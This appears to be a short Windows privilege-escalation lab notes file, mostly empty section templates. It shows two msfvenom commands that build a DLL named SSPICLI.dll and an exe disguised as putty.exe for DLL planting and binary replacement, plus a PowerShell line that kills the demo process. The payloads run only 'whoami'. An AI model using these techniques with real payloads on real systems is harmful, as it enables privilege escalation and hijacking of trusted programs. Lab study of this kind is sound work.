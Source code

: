 ## Showcase
### Fake Payload write permissions (dll emplacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
____________________________________________________________________________________________________________________
## Showcase
### Fake Payload rename permissions (exe replacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f exe > putty.exe
____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## 
### 

____________________________________________________________________________________________________________________
## For the DEMO!!!
### To kill the putty.exe we downloaded and launched.
    (get-process | ?{$_.name -like "putty"}).kill()
____________________________________________________________________________________________________________________
